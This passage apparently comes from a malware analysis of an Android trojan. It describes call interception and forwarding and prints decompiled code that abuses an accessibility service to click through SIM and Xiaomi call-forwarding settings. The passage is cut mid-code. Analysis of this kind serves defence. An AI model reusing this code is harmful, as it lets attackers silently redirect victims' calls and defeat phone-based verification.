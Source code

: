 ```cs
                    @Override  // com.sdktools.android.bot.rest.RestCallback
                    public void onSuccess(RestResponse restResponse0) {
                    }
                });
            }
        }
        catch(Exception unused_ex) {
        }
    }

```

## Call Forwarding 

The malware can intercept calls and forward calls when the user get a phone call.

```cs

    public boolean onAccessibilityEvent(InjAccessibilityService injAccessibilityService0, AccessibilityEvent accessibilityEvent0, String s) {
        int v1;
        Log.d("OwnAccessibilityService", "onAccessibilityEvent -> " + accessibilityEvent0);
        Boolean boolean0 = Boolean.valueOf(false);
        if(accessibilityEvent0.getEventType() != 0x20) {
            return false;
        }

        if(accessibilityEvent0.getClassName().equals("com.android.phone.settings.SimPickerPreference")) {
            if(accessibilityEvent0.getSource() == null) {
                return false;
            }

            this.isSecondSimActive = true;
            AccessibilityNodeInfo accessibilityNodeInfo0 = injAccessibilityService0.findAndGetFirstSimilar(accessibilityEvent0.getSource(), "com.android.phone:id/recycler_view", true);
            if(this.currentSim == SimCard.Sim1) {
                injAccessibilityService0.performClick(accessibilityNodeInfo0.getChild(0), "f");
                return false;
            }

            if(this.currentSim == SimCard.Sim2) {
                injAccessibilityService0.performClick(accessibilityNodeInfo0.getChild(1), "f");
                return false;
            }
        }
        else if(accessibilityEvent0.getClassName().equals("com.android.phone.settings.GsmUmtsCallForwardOptions")) {
            if(accessibilityEvent0.getSource() != null) {
                this.tryToClickXiaomiCallForwardingButton(injAccessibilityService0, accessibilityEvent0);
                return false;
            }

            int v = 0;
            while(v <= 40) {
                if(v % 5 == 0) {
                    injAccessibilityService0.performClick(injAccessibilityService0.getRootInActiveWindow(), "");
                }

                try {
                    Thread.sleep(1000L);
```